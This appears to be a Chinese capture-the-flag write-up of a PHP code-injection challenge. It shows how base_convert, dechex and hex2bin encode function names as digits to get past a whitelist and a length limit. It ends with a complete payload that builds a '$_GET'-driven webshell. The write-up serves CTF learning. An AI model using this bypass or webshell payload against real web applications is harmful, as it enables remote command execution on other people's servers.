 这题做了挺长时间的, 主要是有 80 字符的长度限制, 比较恶心

关键函数是 base_convert, 可以任意进制互转 (2~36)

![](assets/202208282043365-1700744628799115.png)

我们选用十进制和三十六进制互转

因为高于十进制的话含有字母, 就需要加引号了, 而引号会被过滤, 三十六进制是方便字母的转换 (0-9 a-z 数量加起来是 36)

另外还需要注意的是 dechex 和 hex2bin 这个函数, 因为 base_convert 只能转换 0-9 a-z, 特殊字符例如空格和 `$` 之类的符号转换的时候会丢失, 而利用两个函数可以把任意字符串转换成十六进制, 然后再转换成纯数字的十进制

自己一开始的思路是构造 system 执行命令, 不过执行 `cat /flag` 就超出长度限制了...

后来想了想必须要尽可能的缩减 payload, 一个很好的例子就是形如 `$_GET[0]($_GET[1])` 这种 webshell

两个 `$_GET` 可以用同一个变量表示, `[]` 可以用 `{}` 绕过

下面就是如何构造 `_GET` 了, 思路把原始字符串先 bin2hex 然后 hexdec

```php
echo hex2bin(dechex(1598506324)); // _GET
```

dechex 在白名单里面, 而 hex2bin 需要我们手动构造 (利用 base_convert)

```php
echo base_convert(37907361743,10,36); // hex2bin
```

之后需要引入一个变量来作为函数执行, 例如 `$a()`, 我们用 `$pi` 以绕过白名单的检测

payload 如下

```php
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{0})($$pi{1});
```
